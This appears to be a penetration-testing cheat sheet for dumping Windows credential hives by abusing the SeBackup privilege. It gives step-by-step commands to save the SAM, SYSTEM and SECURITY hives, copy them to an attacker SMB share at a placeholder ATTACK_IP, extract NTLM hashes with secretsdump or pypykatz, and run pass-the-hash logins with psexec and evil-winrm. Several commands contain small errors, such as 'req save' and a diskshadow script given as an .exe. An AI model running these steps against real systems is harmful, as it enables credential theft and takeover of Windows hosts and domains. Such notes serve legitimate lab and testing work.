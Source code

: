 # Dump SAM and SYSTEM hives

## Privileges: SeBackup/SeRestore

#### 1: Backup SAM and SYSTEM hashes

 - cd /

 - mkdir temp

 - cd temp

 - req save hklm\system c:\temp\system

 - req save hklm\sam c:\temp\sam

 - download sam

 - download system

#### 2: Create SMB Server on attacking machine

 - 1: mkdir share

 - 2: impacket-smbserver -smb2support -username USER -password PASSWORD public share

#### 3: Copy backups to share folder

- copy c:\users\user\sam.hive \\ATTACK_IP\public\

- copy c:\users\user\system.hive \\ATTACK_IP\public\

#### 4: Retrieve hashes

 - impacket-secretsdump -sam sam.hive -system system.hive LOCAL

## OR 

 - pypykatz registry --sam sam system

#### 5: Pass-The-Hash Attack (PtH)

- impacket-psexec -hashes HASH administrator@TARGET_IP

#### TIP: We can also use evil-winrm for PtH attacks.

- evil-winrm -i TARGET_IP -u administrator -H 'NTLM_HASH'

## Alternate Method to transfer the Hives: reg.py  remotely on Linux

 - python smbserver.py -smb2support share /tmp

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SAM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SYSTEM' -o '\\attacker ip\share'

 - reg.py "domain"/"backup_operator_username":"password"@"dc ip" save -keyName 'HKLM\SECURITY' -o '\\attacker ip\share'

## Alternate Method: SeBackupPrivilegeUtils https://github.com/giuliano108/SeBackupPrivilege

### Usage:

 - Import-Module .\SeBackupPrivilegeUtils.dll

 - Import-Module .\SeBackupPrivilegeCmdLets.dll

 - Set-SeBackupPrivilege

 - Get-SeBackupPrivilege

## Alternate Method: Robocopy

 - robocopy C:\Users\Administrator\Desktop C:\Users\Public root.txt /B

 - type C:\Users\Public\root.txt

## Alternate Method: diskshadow.exe

### Create a script for diskshadow to execute

 - cd /

 - mkdir temp

 - cd temp

 - echo "set context persistent nowriters" | out-file ./diskshadow.txt -encoding ascii

 - echo "add volume c: alias temp" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "create" | out-file ./diskshadow.txt -encoding ascii -append

 - echo "expose %temp% z:" | out-file ./diskshadow.txt -encoding ascii -append

 - dir

 - diskshadow.exe /s c:\temp\diskshadow.exe

  ### Copy the SAM/SYSTEM/SECURITY hives to our temp folder

 - robocopy /b Z:\Windows\System32\Config C:\temp SAM

 - robocopy /b Z:\Windows\System32\Config C:\temp SYSTEM

 - robocopy /b Z:\Windows\System32\Config C:\temp SECURITY

### Then download all of them to our machine

## Dump hashes

### 1) Pypykatz

 - pypykatz registry --sam sam system

### 2) impacket-secretsdump

 - impacket-secretsdump -sam sam -system system LOCAL
